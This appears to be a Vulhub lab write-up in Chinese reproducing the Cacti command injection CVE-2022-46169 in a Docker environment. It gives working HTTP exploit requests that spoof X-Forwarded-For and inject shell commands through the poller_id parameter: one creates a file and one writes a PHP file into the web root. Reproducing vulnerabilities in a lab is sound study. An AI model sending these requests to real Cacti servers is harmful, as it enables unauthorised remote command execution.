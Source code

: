 # Cacti 前台命令注入漏洞 CVE-2022-46169

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf
- https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A

## 漏洞环境

Vulhub执行如下命令启动一个Cacti 1.2.22版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会跳转到登录页面。使用admin/admin作为账号密码登录，并根据页面中的提示进行初始化。

实际上初始化的过程就是不断点击“下一步”，直到安装成功：

![image-20221228090322979](images/image-20221228090322979-167884614486415.png)

这个漏洞的利用需要Cacti应用中至少存在一个类似是`POLLER_ACTION_SCRIPT_PHP`的采集器。所以，我们在Cacti后台首页创建一个新的Graph：

![image-20221228090831131](images/image-20221228090831131-167884614658917.png)

选择的Graph Type是“Device - Uptime”，点击创建：

![image-20221228091535103](images/image-20221228091535103-167884614839619.png)

## 漏洞利用

完成上述初始化后，我们切换到攻击者的角色。作为攻击者，发送如下数据包：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2
```

![image-20221228092519319](images/image-20221228092519319-167884615245021.png)

虽然响应包里没有回显，但是进入容器中即可发现`/tmp/success`已成功被创建：

![image-20221228093004203](images/image-20221228093004203-167884615428523.png)

写入webshell：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`echo+'<?php+phpinfo();?>'>/var/www/html/test.php` HTTP/1.1
```

